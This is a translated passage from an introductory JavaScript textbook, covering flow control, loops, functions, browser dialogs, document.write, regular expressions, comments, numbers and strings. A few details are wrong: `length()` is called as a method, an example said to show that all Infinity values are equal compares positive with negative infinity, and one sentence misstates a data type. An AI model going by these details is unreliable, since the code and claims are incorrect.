语句按照它们在脚本中出现的顺序执行。为了创建有用的程序，通常需要使用 *流程控制*，即控制程序执行“流程”的代码。JavaScript 支持条件语句，如 **if/else** 和 **switch/case** 语句，允许选择性地执行代码片段。**if/else** 语句的一个示例如下：

```
if (x > 10)
{
    x = 0;
}
else
{
    x = x + 1;
}
```

首先，求值 **if** 语句的条件，如果比较结果为真且 *x* 确实大于 10，则将 *x* 设为零。否则，*x* 递增。

请注意，你可以使用不带相应 **else** 的 **if** 语句，也可以在 **else** 语句内使用多个 **if** 语句。这可能会使 **if** 语句变得不必要地混乱，因此 **switch** 语句可能更合适。例如，与其使用一连串的 **if** 语句，我们可以使用一个带有多个 **case** 语句的 **switch**，如下所示：

```
var x=3;

switch (x)
{
    case 1: alert('x is 1');
            break;
    case 2: alert('x is 2');
            break;
    case 3: alert('x is 3');
            break;
    case 4: alert('x is 4');
            break;
    default: alert('x is not 1, 2, 3 or 4');
}
```

在前面的示例中，*x* 的值将通过与各个 **case** 语句比较变量值来决定打印哪条消息。如果未找到匹配项，则执行 **default** 语句。**break** 语句也常在 **switch** 中使用，以便在找到适当选择后退出该语句。然而，**break** 语句的使用也常与循环相关联，接下来将讨论循环。

> **注意** 直到 JavaScript 1.2 才引入 **switch** 语句，因此在非常古老的浏览器中使用时应格外小心。

#### 循环

通常需要迭代执行若干语句，直到满足特定条件为止。例如，你可能希望对数组的每个元素执行相同的操作，直到到达数组末尾。与许多其他语言一样，JavaScript 通过 *循环* 语句来实现这种行为。循环持续执行其代码主体，直到达到停止条件。JavaScript 支持 **while**、**do/while**、**for** 和 **for/in** 循环。**while** 循环的一个示例如下：

```
var x=0;

while (x < 10)
{
    document.write(x);
    document.write("<br />");
    x = x + 1;
}

document.write("Done");
```

此循环在其条件 *x 小于 10* 为 **真** 时持续递增 *x*。一旦 *x* 达到值 10，条件变为 **假**，因此循环终止，执行继续自循环体后的第一条语句，如下所示：



**do/while** 循环与 **while** 循环类似，只是条件检查发生在循环末尾。这意味着循环至少会执行一次，除非首先遇到 **break** 语句。

```
var x=0;

do
{
    document.write(x);
    document.write("<br />");
    x = x + 1;
} while (x < 10)
```

同一个循环写成 **for** 循环会稍微紧凑一些，因为它将循环变量设置、条件检查和递增都包含在单行中，如下所示：

```
for (x=0; x < 10; x++)
{
    document.write(x);
    document.write("<br />");
}
```

**for** 循环的一个有趣变体是 **for/in** 结构。此结构允许我们遍历对象的各种属性。例如，我们可以使用 **for/in** 语句遍历并打印浏览器的 window 对象的属性，如下所示：

```
var aProperty

for (aProperty in window)
{
    document.write(aProperty)
    document.write("<br />");
}
```

有经验的程序员应该会欢迎这个熟悉的语句，它在 [第 6 章](Chapter 6) 讨论对象的上下文中对其他人来说会更有意义。

#### 循环控制

JavaScript 还支持用于修改流程控制的语句，特别是 **break** 和 **continue**。这些语句的作用类似于 C 语言中对应的结构，常与循环一起使用。**break** 语句会提前退出循环，而 **continue** 语句则会跳回到循环条件检查处。在下面的示例中，从 1 开始写出 x 的值，当 *x* 等于 3 时，**continue** 语句不打印值就继续循环。当 *x* 等于 5 时，使用 **break** 语句退出循环。

```
var x=0;

while (x < 10)
{
    x = x + 1;
    if (x == 3)
        continue;

    document.write("x = "+x+"<br />");

    if (x == 5)
        break;
}

document.write("Loop done");
```

所有形式的语句，包括流程控制和循环，都将在第 4 章详细讨论。

#### 函数

函数用于封装执行特定任务的代码。有时为常见所需任务定义函数，以避免重复输入相同语句的麻烦。更一般地，它们用于将执行特定工作的代码集中在一处，以提高可重用性和程序清晰度。

JavaScript 函数使用 **function** 关键字声明，执行其操作的语句列在花括号中。函数参数列在函数名称后的括号中，并用逗号分隔。例如：

```
function add(x, y)
{
    var sum = x + y;
    return sum;
}
```

此代码声明了一个名为 *add* 的函数，它将参数相加并“返回”结果值。**return** 语句告诉解释器该函数计算出的值。例如，你可以将函数的值赋给一个变量：

```
var result = add(2, 3);
```

参数 **2** 和 **3** 被传递给函数，函数体执行，它们的和 **5** 被放入变量 *result* 中。

除了向函数传递字面量值外，还可以传递变量。例如：

```
var a = 3, b=5;
var result;
result = add(a,b);
```

有经验的程序员可能会问是否可以修改传递给函数的变量的值。答案更像一条建议：*不*。JavaScript 对原始数据类型采用按值传递，因此变量 *a* 和 *b* 的值应保持不变，无论 **add** 函数内部发生什么。然而，其他数据类型，尤其是对象，在传递时可以被修改（它们是按引用传递的），这可能会使过程对某些人来说变得混乱。如果你以前在其他语言中编程过，你会认出函数在不同地方被称为过程、子程序和方法。如你所见，函数（将在第 6 章详细讨论）功能非常强大。


#### JavaScript 中的输入与输出

执行输入/输出（I/O）的能力是大多数语言不可或缺的部分。由于 JavaScript 在宿主环境（如 Web 浏览器）中执行，其 I/O 功能可能与你预期的不同。出于明显的安全原因，纯客户端 JavaScript 通常不允许读取或写入本地文件系统中的文件。存在一些例外情况，但这些内容要高级得多，将在后续章节中讨论。

与 JavaScript 中大多数有用的任务一样，I/O 是通过浏览器提供的对象来完成的。与用户交互通常通过 **Window** 对象实现，其几个方法将在本文中介绍。JavaScript 中最常见的 I/O 方法之一是使用 **Window** 的 **alert()** 方法，该方法在包含"确定"按钮的对话框中显示其参数消息。例如，

```
alert("This is an important message!");
```

会导致向用户呈现以下对话框：



与用户对话的其他形式包括 **confirm()** 方法，该方法在包含"确定"和"取消"按钮的对话框中显示其参数消息。使用以下脚本

```
confirm("Learn JavaScript?");
```

你应该会看到以下窗口：



最后，我们可以使用 **prompt()** 方法从用户那里收集数据。提示框在其对话框中显示参数消息，并允许用户在文本字段中输入数据，如下例所示：

```
var answer = prompt("What is your favorite color?","");
```



> **注意** *尽管前面所有方法都是 **Window** 对象的一部分，但你会注意到我们并没有写 window.alert("hello")，而是直接写了 alert("hello")。这种简写形式的有效性源于 JavaScript 的对象作用域规则，这将在第 6 章和第 9 章中讨论。*

一种常见的输出形式是通过 **Document** 对象实现的。该对象提供了多种操控 Web 页面的方式，其中最简单的是 **write()** 和 **writeln()** 方法。**write()** 方法将其参数写入当前文档。**writeln()** 方法与之相同，不同之处在于它在写入参数后会插入一个换行符。例如：

```
document.write("This text is not followed by a linebreak. ");
```

```
document.writeln("However this uses writeln().");
```

```
document.write("So a newline was inserted.");
```

如果你尝试这个示例时没有注意到任何差异，原因在于 JavaScript 通常是输出到 (X)HTML 文档中。回顾[第 1 章](#)，这两种语言的交集可能会给程序员带来一些困扰。支持 (X)HTML 的浏览器会将所有换行符折叠为一个空格，因此换行符在输出中不会产生任何差异。这一特性可能解释了为什么大多数 JavaScript 程序员倾向于使用 **document.write()** 而不是 **document.writeln()**。要查看 **document.write** 和 **document.writeln** 之间的区别，你可以使用 `<pre>` 标签包裹示例，如下所示：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Write/Writeln Example</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
</head>
<body>
<pre>
<script type="text/javascript">
document.write("This text is not followed by a linebreak. ");
document.writeln("However this uses writeln().");
document.write("So a newline was inserted.");
</script>
</pre>
</body>
</html>
```

此示例在浏览器窗口中的结果如[图 2-1](#)所示。



图 2-1：**write()** 和 **writeln()** 方法的输出

除了 **write()** 和 **writeln()** 之外，**Document** 对象还提供了通过文档对象模型（DOM）操作 HTML 和 XML 的强大功能。DOM 主要在第 10 章中介绍，它可用于替换或插入文本、更改格式特性以及写入或读取 HTML 表单。

### 正则表达式

JavaScript 最后一个主要的功能特性是正则表达式。由 **RegExp** 构造函数定义的正则表达式用于执行模式匹配。

```
var country = new RegExp("England");
```

也可以使用直接赋值来定义：

```
var country = /England/;
```

一旦定义了正则表达式，我们就可以用它来匹配模式并可能修改字符串。下面的简单示例匹配变量 `geographicLocation` 中字符串的一部分，并将其替换为另一个字符串。

```
var country = new RegExp("England");
var geographicLocation = "New England";
```

```
document.write("Destination for work: "+geographicLocation+"<br />");
geographicLocation = geographicLocation.replace(country, "Zealand");
document.write("Destination for vacation: "+geographicLocation);
```

此脚本的执行结果如下所示。



JavaScript 对正则表达式的实现功能非常强大，与 Perl 的实现非常相似，因此许多程序员应该能立即上手 JavaScript 的正则表达式功能。有关正则表达式的更多信息可在[第 8 章](Chapter 8)中找到。

#### 注释

最后，良好编程风格的一个非常重要的方面是为你的代码添加注释。注释允许你直接在源代码中插入备注和说明，使其对你自己和他人都更具可读性。你添加的任何注释都会被 JavaScript 解释器忽略。JavaScript 中的注释与 C++ 和 Java 中的类似。注释有两种类型：一种是延伸到当前行末尾的注释，另一种是跨越多行的注释。单行注释以双斜杠（//）开头，使解释器忽略从该点到行末的所有内容。例如：

```
var count = 10;    // holds number of items the user wishes to purchase
```

跨越多行的注释以 C 风格的方式包含在斜杠-星号（/*）和星号-斜杠（*/）对之间。以下示例说明了两种注释类型：

```
/* The function square expects a numeric argument and returns the value squared.
   For example, to square 10 and place the value in a variable called y,
   invoke it as follows:
   var y = square(10);
   This function should only be called with numeric arguments!
*/

function square(x)
{
   return x*x;          // multiply x times x, and return the value
}
```

/* 和 */ 之间的所有内容都会被解释器忽略。请注意，你*不能*嵌套多行注释。这样做会导致错误：

```
/* These are
/* nested comments and will
*/
definitely cause an error! */
```

注释对于编写优质代码的重要性怎么强调都不为过。注释应添加代码本身无法直接看出的信息。例如，为每个定义的函数添加注释始终是一种良好的风格，详细说明函数期望的参数值、执行的操作、可能产生的副作用以及返回值的类型。复杂的语句或循环应该始终添加注释，你自己创建的任何对象也应如此。此外，每个脚本中都应包含一段介绍性注释，说明其目的以及代码中任何已知的缺陷或问题。

注释使代码更易于他人理解。大多数程序员最糟糕的噩梦就是被分配去修复或维护大量没有注释的代码。通过在编写的代码中包含你的逻辑和推理，你可以为继任者节省数小时的工作。专业程序员*总是*为他们的代码添加注释，尤其是在像 Web 这样变化无常的环境中。

注释也使代码更易于你自己理解。任何花过大量时间编写软件的人都可以告诉你这样的经历

他们回头查看之前编写的旧代码时，发现自己完全看不懂了。你不可能永远记住当前任务的所有细节和微妙之处。哪怕只是为了你自己，也一定要在脚本中加入注释。

**注意** 出于安全和性能考虑，你可能希望在将脚本交付给 Web 端最终用户之前删除其中的注释。不过，务必保留带有注释的副本以备日后参考。

### 总结

本章简要概述了 JavaScript 的基本特性，这是一门简单而强大的脚本语言，通常由 Web 浏览器托管。该语言的大多数特性与其他语言（如 C 或 Java）相似。常见的编程结构，如 **if** 语句、**while** 循环和函数，在该语言中都能找到。然而，JavaScript 并非一门简单的语言，它确实包含一些更高级的特性，如复合数据类型、对象和正则表达式。JavaScript 最重要的部分是对象的使用，无论是用户创建的还是内置的（如 **Window**、**navigator** 和 **Document**）。本书的大部分内容将涵盖这些对象的使用。经验丰富的程序员可能希望快速浏览接下来的几章，重点关注 JavaScript 与其他编程语言之间的细微差别。然而，新手程序员应该仔细阅读接下来的五章，以便打下坚实的基础。

## 第二部分：核心语言

## 章节列表

- 第 3 章：数据类型与变量
- 第 4 章：运算符、表达式与语句
- 第 5 章：函数
- 第 6 章：对象
- 第 7 章：数组、日期、数学与类型相关对象
- 第 8 章：正则表达式

## 第 3 章：数据类型与变量

虽然 JavaScript 主要旨在浏览器内用于操作 HTML 网页形式的文本，但它提供的数据类型远远超出了完成该任务所需。JavaScript 中包含了大多数（如果不是全部）你在其他现代脚本语言中能找到的数据类型，以及一套功能强大的操作工具。

JavaScript 支持的基本类型包括数字、字符串和布尔值。更复杂的类型，如对象、数组和函数，也是该语言的一部分。本章将详细介绍基本数据类型及其用法。函数和复合类型（如对象）也会被简要介绍，但对其功能的完整阐述留待第 5 章和第 6 章。

### 关键概念

一个 *变量* 可以被看作是容纳数据的容器。之所以称为“变量”，是因为它包含的数据——它的 *值*——会根据你的脚本而变化。例如，你可能会将客户购买商品的总价放入一个变量中，然后给这个金额加上税，再将结果存回该变量。变量的 *类型* 描述了所存储数据的性质。例如，一个容纳值 **3.14** 的变量类型将是 `number`，而容纳一个句子的变量类型将是 `string`。注意，“string”是编程语言中对字符序列的行话——换句话说，就是一段文本。

由于你需要某种方式来引用变量，每个变量都被赋予一个 *标识符*，这是一个引用该容器并允许脚本访问和操作其中数据的名称。毫不奇怪，变量的标识符通常被称为它的 *名称*。当脚本运行时，JavaScript 解释器（浏览器中执行 JavaScript 的部分）需要在内存中分配空间来存储变量的值。*声明* 一个变量是告诉解释器准备在一个新变量中存储数据的过程。在 JavaScript 中，变量使用 **var** 关键字和你要声明的变量名进行声明。例如，你可以写

```
var firstName;
```

现在你可以在标识符为 **firstName** 的变量中存储数据了。大概，你会在这里存储一个字符串。然后我们可以给变量赋值 "Thomas"。我们将字符串 "Thomas" 称为 *字面量*，它描述了直接出现在源代码中的任何数据。完整的例子现在是

```
var firstName;

firstName = "Thomas";
```

这里的图示演示了迄今为止使用的所有术语。



虽然在使用前声明变量是良好的编程实践，但 JavaScript 允许通过在赋值操作的左侧使用变量来进行 *隐式* 声明。也就是说，当解释器看到脚本可能会将数据放入一个未声明的变量时，它会自动为该变量分配空间，而无需程序员使用 **var** 关键字。例如，你可能只是这样赋值一个变量：

```
lastName = "Schneider";
```

许多程序员在编码时使用这种隐式声明来节省时间。不声明变量直接使用更快也更容易。不幸的是，这也不是一个好主意。不使用变量声明编写的脚本比使用显式声明的脚本更难阅读。隐式声明还可能导致涉及变量作用域的微妙且难以发现的错误，我们将在本章后面讨论这个主题。除非你编写的是一个非常简单的脚本（少于十几行），否则请始终显式声明你的变量。

#### 弱类型

大多数高级语言，包括 C 和 Java，都是 *强类型* 的。也就是说，一个变量在使用前必须声明，并且其类型必须包含在其声明中。一旦变量声明完成，其类型就不能改变。在另一个极端是 *无类型* 语言，如 LISP。LISP 只支持两种原始数据类型：原子和列表。它不区分字符串、整数、函数和其他数据类型。作为一门 *弱类型* 语言，JavaScript 处于这两个极端之间的某个位置。每个变量和字面量都有一个类型，但数据类型不是显式声明的。例如，我们可能定义一个变量 *favNumber* 来存储我们最喜欢的数字，并将其设置为值 3。然后我们可能将变量重新赋值为字符串值 "San Diego"。

```
var favNumber;

favNumber = 3;

favNumber = "San Diego";
```

虽然从逻辑上讲这个例子没有太大意义，但它清楚地表明了 JavaScript 中弱类型是如何工作的。首先，当变量 *favNumber* 被声明时，它是空的。实际上，它的数据类型实际上是 *undefined* 类型。然后我们将其赋值为数字 3，所以它的数据类型是 3。接下来我们将其重新赋值为字符串 "San Diego"，所以变量的类型现在是字符串。如你所见，类型是从内容推断出来的，变量自动获取其包含数据的类型。与 C、Java 或 Pascal 等更严格的强类型语言相比。在那些语言中，你可能会显式定义 *favNumber* 允许的类型，像这样：

```
var favNumber : number;
```

给定这个例子，像这样的赋值

```
favNumber = 3;
```

是完全有效的。但如果你给变量赋一个非数字类型，像这样

```
favNumber = "San Diego";
```

它会导致错误或警告。应该开始清楚的是，弱类型提供了一些简单性，因为程序员不必担心类型，但这是以运行时错误和安全问题为代价的。我们将在本章和本书中看到许多与弱类型相关的问题。目前，了解这个概念就足够了。让我们开始逐一查看每种类型。

#### JavaScript 的原始类型

JavaScript 支持五种原始数据类型：数字、字符串、布尔值、未定义和空值。这些类型被称为 *原始类型*，因为它们是构建更复杂类型的基本构件。在这五种中，只有数字、字符串和布尔值是真正意义上的数据类型，它们实际存储数据。**未定义** 和空值是在特殊情况下产生的类型。

##### 数字

与 C 和 Java 等语言不同，JavaScript 中的数字类型同时包含整数和浮点值。所有数字都以 IEEE 754-1985 双精度浮点格式表示。这种表示法允许精确表示范围在 -2^53 到 2^53 之间的整数，以及幅度高达 +/-1.7976 x 10^308 和低至 +/-2.2250 x 10^-308 的浮点数。

JavaScript 中的数字字面量可以用多种方式书写，包括科学计数法。使用科学计数法时，指数用字母 e 指定（不区分大小写）。

正式地（根据 ECMA-262 语法），十进制字面量有以下三种形式之一（括号表示可选组件）：

```
DecimalDigits.(DecimalDigits)(Exponent)

.DecimalDigits(Exponent)

DecimalDigits(Exponent)
```

用简单的英语来说，这意味着以下所有都是指定数字的有效方式：

```
10

177.5

-2.71

.333333e77

-1.7E12

3.E-5

128e+100
```

注意，整数中 *不应* 包含前导零。原因是 JavaScript 也允许以十进制（基数为10）以外的其他进制指定数字字面量。

前导零向 JavaScript 表示该字面量是其他进制的。

###### 十六进制字面量

程序员经常发现使用十六进制（基数为16）表示法编写数字很方便，尤其是在执行位运算时。原因是对于大多数人来说，将二进制转换为十六进制比将二进制转换为十进制更容易。如果你对此毫无头绪，不要担心；如果你还不知道十六进制，很可能你永远不需要它。

有过编程经验的读者应该熟悉 JavaScript 的十六进制语法：一个前导零，后跟字母 x（不区分大小写），再后跟一个或多个十六进制数字。十六进制数字是数字 0 到 9 和字母 A 到 F（不区分大小写），它们代表数值 0 到 15。以下是合法十六进制值的示例：


0x0
0XF8f00
0x1a3C5e7

使用十六进制表示法时不能使用指数（八进制表示法同样如此）。

> **注意** *虽然十六进制在用于网页的 JavaScript 中似乎用途有限，但请考虑 HTML 中的颜色值通常以十六进制设置，因此它可能比您想象的更重要。*

###### 八进制字面量

虽然八进制（基数为 8）数字字面量并非 ECMA-262 规范的正式组成部分，但几乎所有 JavaScript 实现都允许使用它们。八进制字面量以一个前导零开头，八进制数字是零到七之间的数字。以下是所有有效的八进制字面量：

```
00
0777
024513600
```

> **注意** *Opera 浏览器的 JavaScript 实现（即使是第 5 版）也不支持八进制。未来的版本应该支持这种数据类型，但程序员在使用八进制值时应该意识到这种差异。*

###### 特殊值

数字数据可以取几个特殊的值。当数字表达式或变量超过可表示的最大正值时，它会取特殊值 **Infinity**。同样，当表达式或变量小于可表示的最低负值时，它会取值 **–Infinity**。这些值具有 *粘性*，因为当它们在表达式中与其他正常值或自身一起使用时，会导致整个表达式求值为该值。例如，**Infinity** 减 100 仍然是 **Infinity**；它不会变成一个可表示的数字。所有 **Infinity** 值彼此比较相等。同样，所有 **–Infinity** 值也彼此比较相等。

虽然获得 **Infinity** 值的一种更简单的方法是除以零，但以下代码演示了当您递增可表示的最大正值时会发生什么。

```
var x = 1.7976931348623157e308;    // 将 x 设置为最大值

x = x + 1e292;                   // 递增 x

alert(x);                        // 向用户显示结果值
```

此代码将最大正表示值赋给 x，递增其最低有效数字，然后向用户显示结果值 x。结果是



另一个重要的特殊值是 **NaN**，意思是“非数字”。当数字数据是未定义操作的结果时，它会取此值。导致 **NaN** 的操作的常见例子是将零除以零、对 **Infinity** 取正弦以及尝试将 **Infinity** 加到 **–Infinity** 上。**NaN** 值也具有粘性，但与无穷值不同，它*从不*与任何值比较相等。因此，您必须使用 **isNaN()** 方法或将值与自身比较来确定该值是否为 **NaN**。**isNaN()** 方法返回一个布尔值，指示该值是否为 **NaN**。此方法非常重要，它是 Global 对象的一个属性，因此可以在脚本中直接调用。将值与自身比较将指示该值是否为 **NaN**，因为它是唯一一个不与自身比较相等的值！

以下示例说明了这两种技术的使用：

```
var x = 0 / 0;              // 将 NaN 赋给 x

if (x != x)                // 通过自相等检查
{
    // 执行某些操作
}

if (isNaN(x))               // 通过显式调用检查
{
    // 执行某些操作
}
```

####### 表 3-1：特殊数字数据值摘要

| 特殊值 | 结果为 | 比较 | 具有粘性？ |
|---|---|---|---|
| **Infinity, -Infinity** | 数字太大或太小无法表示 | 所有 **Infinity** 值彼此比较相等 | 是 |
| **NaN** | 未定义的操作 | **NaN** 从不与任何值比较相等，甚至不与自身相等 | 是 |

JavaScript 1.1+ 和 JScript 2.0+ 通过 Number 对象的属性轻松访问这些特殊数值。这些属性如表 3-2 所示，以下示例说明了它们可能的使用方式：

####### 表 3-2：与特殊数值相关的 Number 对象属性

| 属性 | 值 |
|---|---|
| Number.MAX_VALUE | 可表示的最大数值 |
| Number.MIN_VALUE | 可表示的最小数值 |
| Number.POSITIVE_INFINITY | 特殊值 **Infinity** |
| Number.NEGATIVE_INFINITY | 特殊值 **–Infinity** |
| Number.NaN | 特殊值 **NaN** |

```
// 说明所有 Infinity 值都相等：

var posInf = Number.POSITIVE_INFINITY;
var negInf = Number.NEGATIVE_INFINITY;
alert(posInf == negInf);
```

```
// 显示可表示的最大数值：
alert(Number.MAX_VALUE);
```

关于 JavaScript **Math** 对象支持的函数和常量的完整讨论，请参见 *第 7 章*。

> **注意** *JavaScript 中的除以零在某种程度上与微积分一致。正数除以零得到“无穷大”，负数除以零得到“负无穷大”，零除以零是“未定义”（NaN）。*

##### 数据表示问题

JavaScript 中的数字以 64 位浮点数表示这一事实具有一些复杂的影响和微妙的陷阱。如果您处理的是整数，请记住只有范围在 –2^53 到 2^53 之间的整数才能精确表示。一旦您的值（或表达式中的中间值）超出此范围，其数值就成为不精确的近似值。这可能导致一些令人惊讶的行为：

```
var x = 9007199254740992;    // 2^53

if (x == x + 1)

    alert("True! Large integers are only approximations!");
```

如果您处理浮点数，事情会变得非常混乱。许多这样的值无法精确表示，因此您可能会注意到（或者更糟的是没有注意到）即使是简单计算也会得到“错误”的答案。例如，考虑以下代码片段：

```
var x = .3333;

x = x * 5;

alert(x);
```

人们会期望 *x* 包含值 **1.6665**。然而，实际结果显示在此处：



这不仅不是预期的结果，而且这个值甚至不会与 **1.6665** 比较相等！

一个基本的经验法则是永远不要直接比较小数是否相等，并使用舍入将数字转换为预定的有效数字位数。浮点运算固有的精度损失对于需要计算精确值的应用程序来说可能是一个非常严重的问题。因此，除非您对所涉及的问题有透彻的了解，否则可能不是依赖浮点运算进行重要计算的好主意。这个主题远超出了本书的范围，但感兴趣的读者可以在网上找到关于浮点运算的教程，以及在数值分析或数学编程的书籍中找到更深入的讨论。

##### 字符串

*字符串* 就是文本。在 JavaScript 中，字符串是由单引号或双引号括起来的字符序列。例如，

```
var string1 = "This is a string";
```

定义了一个存储在 *string1* 中的字符串值，下面的代码片段也是如此：

```
var string2 = 'So am I';
```

与许多其他语言不同，JavaScript 不区分单个字符和字符串。所以，

```
var oneChar = "s";
```

定义了一个长度为一的字符串。

字符串与一个 **String** 对象相关联，该对象提供了操作和检查的方法。例如，您可以使用 **charAt()** 方法从字符串中提取字符。

```
var myName = "Thomas";
```

```
var thirdLetter = myName.charAt(2);
```

因为字符串中的字符从零开始枚举（第一个位置是位置零），所以此代码片段提取字符串中的第三个字符（o）并将其赋给变量 *thirdLetter*。您还可以使用 **length()** 方法确定字符串的长度：

```
var strlen = myName.length();
```

此代码片段将 *strlen* 设置为 6。这些只是字符串众多方法中的一小部分，*第 7 章* 中将详细讨论它们。然而，在继续讨论其他基本类型之前，我们现在确实需要介绍一些重要的字符串细节。

###### 特殊字符和字符串

任何字母、数字或标点符号都可以放在字符串中，但存在一些自然的限制。例如，*换行符* 是导致输出在显示器上向下移动一行的字符。使用您的 ENTER 键直接将其键入字符串将导致如下所示的字符串字面量：

```
var myString = "This is the first line.
This is the second line."
```

这是一个语法错误，因为这两行单独的文本在 JavaScript 看来是两个不同的语句，特别是当省略分号时。

由于回车、引号等特殊字符的问题，JavaScript 和大多数其他编程语言一样，使用 *转义码*。转义码（也称为转义序列）是一小段以反斜杠 (\) 开头并具有特殊含义的文本。转义码允许您包含特殊字符而无需直接键入它们。例如，换行符的转义码是 **\n**。使用这个转义码，我们现在可以正确定义之前看到的字符串字面量：

```
var myString = "This is the first line.\nThis is the second line."
```

此示例还阐明了转义码的一个重要特征：即使它们与其他字符紧挨着出现（在此示例中是 . 和 *T*），它们也能被正确解释。

JavaScript 中支持的转义码列表如表 3-3 所示。

| 转义码 | 值 |
| :--- | :--- |
| \b | 退格符 |
| \t | 制表符（水平） |
| \n | 换行符 |
| \v | 制表符（垂直） |
| \f | 换页符 |
| \r | 回车符 |
| \" | 双引号 |
| \' | 单引号 |
| \\ | 反斜杠 |

[content]


| 转义码 | 值 |
|---|---|
| \OOO | 由八进制数字 OOO 表示的 Latin-1 字符。有效范围为 000 到 377。 |
| \xHH | 由十六进制数字 HH 表示的 Latin-1 字符。有效范围为 00 到 FF。 |
| \uHHHH | 由十六进制数字 HHHH 表示的 Unicode 字符。 |

###### 字符表示

仔细查看转义码表格可以发现，JavaScript 支持两种不同的字符集。ECMA-262 规定了对 Unicode 的支持，因此现代 JavaScript 实现都支持 Unicode。Latin 字符集每个字符使用一个字节，因此是一个包含 256 个可能字符的集合。Unicode 字符集总共包含 65,536 个字符，因为每个字符占用 2 个字节。因此，Unicode 几乎包含了地球上所有语言中每个可打印字符。Netscape 6 和 Internet Explorer 4 之前的浏览器版本使用 Latin-1（ISO8859-1），它是 Unicode 的子集（NS4 的某些版本具有部分 Unicode 支持）。这种区别对大多数用户来说是透明的，但在非英语环境中可能会导致问题。

以下示例使用转义码以三种不同的方式将包含字母 *B* 的字符串赋值给变量。这些字符串之间的唯一区别是用于表示该字符的字符集（即它们的比较结果都相等）：

```
var inLatinOctal = "\102";

var inLatinHex = "\x42"

var inUnicode = "\u0042";
```

有关字符集和 Web 技术的更多信息，请访问 http://www.unicode.org 和 http://www.w3.org。

###### 引号和字符串

说到特殊字符，引号值得特别注意。从表 3-3 中可以看到，JavaScript 中单引号和双引号都有对应的转义码。如果你的字符串使用双引号分隔，那么其中的任何双引号都必须转义。类似地，使用单引号分隔的字符串中的任何单引号也必须转义。原因很简单：如果引号没有被转义，JavaScript 会错误地将其解释为字符串的结束。以下是字符串中正确转义引号的示例：

```
var string1 = "These quotes \"are\" valid!";

var string2 = 'Isn\'t JavaScript great?';
```

以下字符串是*无效*的：

```
var invalid1 = "This will not work!';

var invalid2 = 'Neither 'will this';
```

###### 字符串与 HTML

